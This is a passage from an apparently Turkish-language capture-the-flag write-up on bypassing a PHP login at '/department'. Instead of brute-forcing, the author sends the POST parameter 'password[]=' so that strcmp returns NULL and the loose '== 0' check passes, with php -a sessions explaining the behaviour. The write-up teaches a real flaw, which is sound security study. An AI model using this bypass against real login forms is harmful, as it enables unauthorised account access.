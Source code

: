 
### /department Type Confusion

Admin kullanıcı adını zaten tespit edebildiğim için, burada da parolayı brute-force ile kırmayı deneyebilirim (ve yeterince büyük bir liste, örneğin _rockyou.txt_ kullanarak başarılı olabilirim). Ancak bunu yapmadan önce, PHP tür karmaşası (_type juggling_) hatası olup olmadığını kontrol etmek için parola alanına bir dizi (_array_) gönderdim.

Firefox üzerinden formu gönderdiğimde, Burp POST verisini şu şekilde gösterdi:

```
username=admin&password=admin
```

Eğer bunu şöyle değiştirirsem:

![Pasted image 20250207220143.png](/img/user/resimler/Pasted%20image%2020250207220143.png)

```
username=admin&password[]=
```

Beni içeri alıyor:

![Pasted image 20250207220344.png](/img/user/resimler/Pasted%20image%2020250207220344.png)

Bu neden işe yarıyor? PHP farklı veri türlerini karşılaştırma konusunda cömerttir. Dolayısıyla, PHP bir veritabanından alınan (veya burada olduğu gibi sabit kodlanmış) bir parola ile kullanıcı girdisini bir string karşılaştırması yapıyorsa, bu aşağıdaki gibi görünebilir:

```
if(strcmp($_REQUEST['password'], $password) == 0)
```

strcmp, etkileşimli bir PHP terminalinde görebildiğim gibi (==php -a=='yı çalıştırın) iki stringin farklı olduğu yeri döndürür:

```
php > strcmp("admin", "0xdf");
php > echo strcmp("admin", "0xdf");
1
php > echo strcmp("admin", "admin0xdf");
-4
php > echo strcmp("admin", "admin");
0
```


Stringlerden biri olarak bir array geçersem PHP başarısız olur:

```
php > echo strcmp(array(), "admin");
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
```

Ancak, aslında bir NULL döndürür ve bu NULL daha sonra 0 ile karşılaştırılırsa doğru olarak değerlendirilir:

```
php > if (strcmp(array(), "admin") == 0) { echo "oops"; }
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
oops
```
